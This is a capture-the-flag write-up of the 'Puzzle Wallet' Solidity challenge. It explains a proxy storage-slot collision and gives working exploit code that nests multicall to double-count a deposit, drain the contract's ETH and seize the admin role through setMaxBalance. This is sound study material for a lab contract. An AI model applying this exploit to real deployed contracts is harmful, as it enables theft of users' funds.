 # Puzzle Wallet

One of the hardest solidity challenges yet. Here is the overview

---

It has misaligned state variables in the two contracts. So to edit the `admin` variable we can edit the `maxBalance`.

```solidity
contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;
```

```solidity
contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
```

To update the `maxBalance` we need to be on the `onlyWhiteListed`

```solidity
function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }
```

For us to get in the whitelist we can `proposeNewAdmin` to us (`address(this)`) and then `addToWhitelist` to set us there.

---
 
In the `setMaxBalance` there is a `require` that checks that the balance of the contract is set to 0. When the challenge is deployed it has 0.001 ETH in it. Do "steal" this and remove it we can use the advanced function `multicall`, to deposit and withdraw and set it to 0. 

This is done with: 
```solidity
bytes[] memory deposit_data = new bytes[](1);
deposit_data[0] = abi.encodeWithSelector(wallet.deposit.selector);

bytes[] memory data = new bytes[](2);
// Depositing
data[0] = deposit_data[0];
// multicall -> deposit
data[1] = abi.encodeWithSelector(wallet.multicall.selector, deposit_data);
wallet.multicall{value: 0.001 ether}(data);

// Withdraw money
wallet.execute(msg.sender, 0.002 ether, "");
```

Then we can call `setMaxBalance` to us with casting the address -> `uint256(uint160(msg.sender))`